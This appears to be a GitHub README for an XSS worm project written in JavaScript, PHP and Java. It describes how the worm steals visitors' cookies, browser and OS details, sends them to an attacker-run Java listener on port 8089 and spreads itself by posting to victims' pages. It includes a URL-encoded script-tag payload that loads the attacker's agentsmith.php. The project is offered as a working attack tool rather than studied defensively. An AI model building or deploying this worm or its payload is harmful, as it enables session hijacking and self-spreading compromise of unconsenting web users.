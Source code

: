 # XSS-Worm
XSS Worm which steals cookies and some information of victim's, also spreads others. Written in js, php and java.

## Stealing
The worm will send cookies and some other information (like browser and os) to the attacker (attacker presented as localhost in the script).
1. The script inside **javascript/worm.js** need to be embedded into attackers webpage somehow.
2. Attacker will listen a port (8089 in this case) to receive stealed data sent from worm. And incoming data will be printed to a text file (named "cookies.txt"). Here the **tcp/Main.java** program will do the trick.
3. Finally, attacker can display stealed information with **web/innocentwebapp.php** file which parses "cookies.txt" file.

## Spreading
The worm (**javascript/worm.js**) will spread(post) itself to anyone's webpage who *involuntarily* run itself.
1. Worm has a part which sends a request to **web/agentsmith.php** and post its response to the webpage whom visits the contagious page.(To make the request properly, data must be URL encoded.)
```javascript
var agentsmith = "%3Cscript%20type%3D%5C%22text%2Fjavascript%5C%22%20src%3D%5C%22http%3A%2F%2Flocalhost%2Fagentsmith.php%5C%22%3E%3C%2Fscript%3E";
```

2. If the worm posted succefully to victims webpage, who visits the victims contagious page will be also exploited.
